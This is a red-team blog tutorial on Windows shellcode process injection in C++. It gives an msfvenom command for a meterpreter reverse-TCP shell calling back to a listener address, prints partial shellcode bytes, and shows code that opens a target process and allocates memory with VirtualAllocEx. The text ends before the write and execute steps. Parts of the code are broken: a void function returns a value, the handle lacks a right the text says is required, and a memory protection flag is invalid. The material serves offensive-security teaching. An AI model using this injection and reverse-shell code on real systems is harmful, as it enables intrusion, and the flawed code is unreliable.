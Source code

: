 ```yaml
---
title: Offensive C++ - Process Injection (ShellCode)
author: nirajkharel
date: 2024-06-27 15:10:00 +0800
categories: [Red Teaming, Offensive Programming]
tags: [Red Teaming, Offensive Programming]
render_with_liquid: false
---
```



## Process Injection - Shellcode

In this blog, we are going to discuss how we can perform a generic shellcode injection inside a running process and the functions needed to do it.

Generally, shellcode injection in a process refers to injecting portable executable (PE) code into the virtual address space of the running process and then executing it via a new thread. It can also be a potential technique to avoid detection and gain the elevated privileges of the running process. The flowchart below describes the process that should be followed during the injection. The general process consists of:
- Identifying the running process
- Obtaining the handle to the process
- Allocating the buffer in the virtual address space of the process
- Creating and writing the shellcode into the allocated buffer
- Creating a thread that runs in the virtual address space of the process, aka executing the shellcode

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/proc-injection-shellcode.png">


**Creating a Shellcode**    
We can use msfvenom to generate a generic reverse shell shellcode using below command.
```bash
msfvenom -platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.67 LPORT=4444 -f c --var-name=wannabe

unsigned char wannabe[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
.............[snip]......
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
"\xf0\xb5\xa2\x56\xff\xd5";
```

**Enumerating the Running Process**
We have previously discussed the enumeration of processes and their entities such as process IDs and process names in previous blogs. You can refer to this link for more information on the **[ToolHelp32](https://nirajkharel.com.np/posts/process-enumeration-toolhelp32/)** function. Process enumeration can also be achieved using other methods like the **[Windows Terminal Services API](https://nirajkharel.com.np/posts/process-enumeration-windows-terminal-services/)**, **[EnumProcess](https://nirajkharel.com.np/posts/process-enumeration-enum-process/)**, or **[NtQuerySystemInformation](https://nirajkharel.com.np/posts/process-enumeration-ntqueryinformation/)**.

Define the function for process Id enumeration and call it within the **main** function.
```c++
void FindProcess() {
    // Your Code here
}

int main(){
    FindProcess();

    // Provide the Proces Ids and take an input from the user for the process they want to enumerate the modules for.
    DWORD pid;
    cout << "\n\nEnter ProcessId: ";
    cin >> pid;
    
    // Pass the Process Id to FindProcessModule
    InjectShellcode(pid);
}
```

Once we have enumerate the running processes and the process Ids associated with them, we need to open the handle to the proccess that we want to inject our code. Here I have described the impelementation of the [**Open Process**](https://nirajkharel.com.np/posts/process-module-enumeration/#openprocess) function.
```c++
void InjectShellcode(DWORD pid) {

    // shellcode
    unsigned char wannabe[] = "\xfc ...[snip]...\xd5";

    // Needed parameters for OpenProcess
    HANDLE hProcess;
    BOOL bInHandle;
    DWORD dwProcessId = pid;

    // Opening the handle of the process. PROCESS_QUERY_INFORMATION and PROCESS_VM_READ is needed for GetModuleFileNameEx function
    hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, dwProcessId);

    if (hProcess == NULL){
        cout << "\nUnable to Identify the Process ID\n";
        return;
    }
``` 

**Buffer Allocation -** [**VirtualAllocEx**](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)

As we discussed earlier, we need to allocate our buffer into the virtual address space of the running process. Before that, we need to allocate/reserve the region of the memory within the virtual address space. This can be done using VirtualAllocEx function of the windows API

**SYNTAX**
```c++
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

The `VirtualAllocEx` function returns the base address of the allocated memory region if it succeeds and returns `NULL` if it fails.
- **HANDLE hProcess**: Contains the handle to the process where the allocation needs to occur. For successful execution, the handle must have the `PROCESS_VM_OPERATION` access right. Therefore, while using the **OpenProcess** function, this right needs to be defined already.
- **LPVOID lpAddress**: An optional parameter that defines the starting address of the allocation within the virtual address space. It can be set to `NULL` to allow the program to determine the allocation region automatically.
- **SIZE_T dwSize**: Contains the size of the allocated region that we need to allocate. This means the size of our shellcode.
- **DWORD flAllocationType**: Contains the type of memory allocation that we need to define. Microsoft has provided a list of such types depending on the requirements. As we are reserving the region of the virtual address and then committing our shellcode, to do that in a single step, it is recommended to use `MEM_COMMIT | MEM_RESERVE`. There are additional types like `MEM_RESET`, `MEM_RESET_UNDO`, `MEM_LARGE_PAGES`, `MEM_PHYSICAL`, and `MEM_TOP_DOWN` if you would like to explore.
- **DWORD flProtect**: Contains the memory protection constants defined by Microsoft. We will be using `PAGE_READWRITE` and `PAGE_EXECUTE` values for it since we need to allocate the memory region, write into that region, and execute the shellcode. You can explore other [constants here.](https://learn.microsoft.com/en-us/windows/win32/Memory/memory-protection-constants)

Once we are ready with the function and its parameters, let's define it inside our `InjectShellcode` function.
 

```c++

    // Define the neede parameters.
    LPVOID lpAddress = NULL; // NULL to instruct program to figure out the starting region by themselves
    SIZE_T dwSize = sizeof(wannabe); // Size of the shellcode
    DWORD flAllocationType = MEM_COMMIT | MEM_RESERVE; // Reserve and commit in sigle step 
    DWORD flProtect = PAGE_READWRITE | PAGE_EXECUTE; // Necessary permission to write and execute the shellcode

// Define the function VirtualAllocEx
    LPVOID lpBuffer = VirtualAllocEx(hProcess, 
    lpAddress, dwSize, flAllocationType, flProtect);
  	if (lpBuffer == NULL){
  		printf("\nFailed to Allocate the memory\n");
  		CloseHandle(hProcess);
  		return 1;
  	}
    printf("Allocated the memory into virtual space");
```